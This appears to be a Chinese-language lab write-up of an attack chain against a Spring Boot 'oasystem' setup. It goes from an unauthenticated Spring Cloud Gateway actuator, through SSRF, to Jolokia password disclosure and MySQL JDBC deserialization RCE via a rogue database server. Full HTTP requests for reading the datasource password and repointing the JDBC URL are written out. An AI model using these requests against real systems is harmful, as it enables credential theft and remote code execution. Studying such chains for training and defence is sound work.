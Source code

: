 ## 概述

外网有俩服务，第一个是Springboot写的web服务，`/actuator`路由加了Springboot Security限制了内网IP白名单，攻击者没办法直接访问，只能访问正常的业务

第二个是SpringCloud Gateway，也有`/actuator`路由，而且是未授权访问。可以访问`/actuator/gateway/routes`获取到gateway转发的地址，从而访问`/oasystem`打第一个web服务的SSRF

通过SSRF第一个web服务的`/actuator`，一可以打MySQL JDBC 反序列化（不单单是这个，还有其他手法RCE）直接RCE，二可以打`/actuator/jolokia`，造成数据库密码泄露
RCE之后可以直接拿数据库密码连接MySQL托库

![](../images/oasystem.png)

## API interface leak  &&  SSRF

扫Gateway服务的目录得到`/actuator`未授权访问，以及转发流量的路由

![](../images/oasystem_2.png)

## MySQL passwd leak

获取env，寻找`*`加密的密码

![](../images/oasystem_3.png)

获取*加密的密码

```http
POST /oasystem/actuator/jolokia HTTP/1.1
Content-Type: application/json
Host: localhost:8000
Connection: close
Content-Length: 205

{
    "mbean": "org.springframework.boot:name=SpringApplication,type=Admin",
    "operation": "getProperty",
    "type": "EXEC",
    "arguments": [
        "spring.datasource.password"
    ]
}
```

## MySQL JDBC deserialization to RCE

修改配置，指向恶意MySQL服务器

```http
POST /oasystem/actuator/env HTTP/1.1
Content-Type: application/json
Host: localhost:8000
Content-Length: 215

{"name":"spring.datasource.url","value":"jdbc:mysql://IP:PORT/mysql?characterEncoding=utf8&useSSL=false&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true"}
```

刷新配置

```http
POST /oasystem/actuator/refresh HTTP/1.1
Host: localhost:8000
Content-Length: 0


```

用户操作，触发SQL查询，RCE。

更多攻击手法请见：https://github.com/LandGrey/SpringBootVulExploit

